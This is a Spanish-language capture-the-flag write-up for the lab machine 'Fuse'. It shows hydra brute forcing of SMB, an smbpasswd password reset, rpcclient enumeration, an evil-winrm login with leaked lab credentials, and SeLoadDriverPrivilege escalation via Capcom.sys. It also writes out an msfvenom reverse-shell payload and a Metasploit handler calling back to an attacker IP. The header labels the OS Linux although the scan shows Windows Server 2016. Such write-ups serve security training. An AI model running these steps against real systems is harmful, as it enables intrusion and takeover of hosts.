 # Fuse

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- Hydra Brute force
- Smbpasswd change password
- Rpcclient enumeracion
- SeLoadDriverPrivilege priv esc

## Nmap Scan

`nmap -sV -sC -Pn 10.10.10.193`

```
Nmap scan report for fuse.fabricorp.local (10.10.10.193)
Host is up (0.075s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-06-13 19:21:37Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

## Enumeración

Accediendo al puerto 80 desde el navegador nos muestra un nombre de dominio. Lo agregamos a nuestro archivo **hosts**.

![1](img/1.png)

Una vez agregado el dominio podemos acceder a la página web y enumerando los apartados se encuentran nombres de usuarios en el apartado logs, los cuales nos pueden ayudar a generar una lista de posibles usuarios en el sistema.

![2](img/2.png)

Copiamos los nombres de usuario que en total son 5 y posteriormente generamos una lista con palabras del sistema utilizando **cewl**.

`cewl -w passwords.txt --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm`

![3](img/3.png)

Utilizamos **hydra** para hacer fuerza bruta al servicio smb.

`hydra -L usernames.txt -P passwords.txt 10.10.10.193 smb`

![4](img/4.png)

Si intentamos conectarnos al servicio smb con las credenciales descubiertas veremos un mensaje que dice **NT_STATUS_PASSWORD_MUST_CHANGE**.

![5](img/5.png)

### Smbpasswd / Rpcclient

Podemos cambiar el password de alguno de los usuarios con la herramienta **smbpasswd**.

`smbpasswd -r 10.10.10.193 -U tlavel`

```
Old SMB password: Fabricorp01
New SMB password: Doom123456
Retype new SMB password: Doom123456
```

![6](img/6.png)

Nos conectamos con **rpccliente** para enumerar los usuarios y las impresoras.

`rpcclient -U tlavel 10.10.10.193`

![7](img/7.png)

Se visualizan más usuarios y un password. Haremos el mismo procedimiento anterior para encontrar a que usuario pertenece ese password.

`hydra -L usernames.txt -p '$fab@s3Rv1ce$1' 10.10.10.193 smb`

![8](img/8.png)

Obtenemos una shell a través del servicio **winrm** con **evil-winrm**.

`evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1' -s tools/`

![9](img/9.png)

## Escalada de Privilegios

Podemos ver que el usuario **svc-print** tiene privilegios de **SeLoadDriverPrivilege**.

![10](img/10.png)

### SeLoadDriverPrivilege

Investigando llegamos a este [articulo](https://www.tarlogic.com/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/) que explica la forma de tomar ventaja de los privilegios con los que contamos.

Subimos al sistema los archivos [Capcom.sys/eopdriverloader.exe](exploit).

- `upload tools/Capcom.sys`
- `upload tools/eopdriverloader.exe`

![11](img/11.png)

Editamos el módulo de metasploit llamado **capcom_sys_exec.rb**.

`sudo nano /usr/share/metasploit-framework/modules/exploits/windows/local/capcom_sys_exec.rb`

![12](img/12.png)

Creamos un reverse shell con **msfvenom**, la subimos al sistema, configuramos metasploit y ejecutamos nuestra shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.251 LPORT=1234 -f exe -o shell.exe
upload tools/shell.exe

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.251
set lport 1234
run

.\shell
```

![13](img/13.png)

![14](img/14.png)

Ejecutamos el archivo **eopdriverloader.exe**.

`.\eopdriverloader.exe System\CurrentControlSet\Doom C:\temp\Capcom.sys`

![15](img/15.png)

Configuramos el exploit [capcom_sys_exec](https://www.rapid7.com/db/modules/exploit/windows/local/capcom_sys_exec).

```
background
set session 1
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.251
set lport 4444
```

![16](img/16.png)

Ejecutamos el exploit.

`run`

![17](img/17.png)

## Referencias
https://www.tarlogic.com/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/ \
https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege \
https://github.com/TarlogicSecurity/EoPLoadDriver/ \
https://gitlab.com/th3d00msl4y3r/windows-exploits/-/tree/master/EoPLoadDriver \
https://www.rapid7.com/db/modules/exploit/windows/local/capcom_sys_exec \
https://github.com/rapid7/metasploit-framework/pull/7363
